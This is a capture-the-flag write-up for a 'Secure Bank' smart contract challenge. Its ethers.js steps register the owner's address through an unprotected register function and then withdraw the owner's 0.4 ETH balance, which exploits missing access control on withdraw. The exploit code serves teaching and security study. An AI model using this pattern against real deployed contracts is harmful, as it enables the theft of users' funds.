 # Secure Bank

# Problem Statement
```
Game Balance: 0.4 ETH

Good Afternoon!
Welcome to your Super Secure Digital Bank Account.
You may have heard elsewhere that with blockchain, banks are a thing of the past, what with fully owning your private keys and all...

But that is nonesense! You still need a bank! Who else will send you 30 new credit card offers in the mail each day??

At Super Secure Bank, we bring you the best of both worlds! We let you control the keys to your funds (stored in our smart contract) while still requiring you to register and receive our spam!

Register Today!
---------------
|Email |      |
---------------
|Register|
----------
```

# Solution
Again, lets first look at all the `public`/`external` methods we can call. After looking at all all of these externally callable functions, we spot a possible vulnerability with the `SimpleBank` `withdraw` function:
```
// using ethers.js
function withdraw(address _user, uint256 _value) public ctf{
  require(_value<=balances[_user], "Insufficient Balance");
  balances[_user] -= _value;
  msg.sender.transfer(_value);
}
```
This function allows any caller to withdraw a `_value` amount of ethereum if the `_user` exists in the `balances` map.<br>
Because `MembersBank` inherits from `SimpleBank` it overrides the `withdraw` function but will call it anyway in the function body:
```
function withdraw(address _user, uint256 _value) public isMember(_user) ctf{
  super.withdraw(_user, _value);
}
```
Lets get the contract owner's address so we can check the balance. You can get this by going to https://ropsten.etherscan.io/address/CONTRACT_ADDRESS and the `From` field value is the address of the owner.
```
const contractAddress = // Secure Bank contract address
const ownerAddress = // From going to etherscan above
const abi = [
  {
    constant: true,
    inputs: [{ name: "", type: "address" }],
    name: "balances",
    outputs: [{ name: "", type: "uint256" }],
    payable: false,
    stateMutability: "view",
    type: "function",
  },
];
const contract = new ethers.Contract(contractAddress, abi, eoa);
const getResult = await contract.balances(ownerAddress);
console.log("getResult: ", getResult);
// returns BigNumber { value: "400000000000000000" }
```
So we just need to call this function to exploit this vulnerability. To do this we have to make sure we can pass the `isMember` modifier so lets call the `register` function with the owner's address:
```
const contractAddress = // Secure Bank contract address
const ownerAddress = // From going to etherscan above
const abi = [
  {
    constant: false,
    inputs: [
      { name: "_user", type: "address" },
      { name: "_username", type: "string" },
    ],
    name: "register",
    outputs: [],
    payable: false,
    stateMutability: "nonpayable",
    type: "function",
  },
];
const contract = new ethers.Contract(contractAddress, abi, eoa);
const tx = await contract.register(ownerAddress, "owner");
```
Next, lets see how ethereum exists in the contract:
```
const contractAddress = // Secure Bank contract address
const contractEtherBalance = await provider.getBalance(contractAddress);
console.log(contractEtherBalance);
// returns BigNumber { value: "400000000000000000" }
```
Ok, so the owner has all of the ethereum stored in the contract.<br>
Lets now run the `withdraw` method with the owner's account and with the ethereum balance:
```
const contractAddress = // Secure Bank contract address
const ownerAddress = // From going to etherscan above
const abi = [
  {
    constant: false,
    inputs: [
      { name: "_user", type: "address" },
      { name: "_value", type: "uint256" },
    ],
    name: "withdraw",
    outputs: [],
    payable: false,
    stateMutability: "nonpayable",
    type: "function",
  },
];
const contract = new ethers.Contract(contractAddress, abi, eoa);
const tx = await contract.withdraw(ownerAddress, "400000000000000000");
```

We've completed this lesson!

# Key Learnings
- When working with contracts that require authorization make sure all access points are protected.
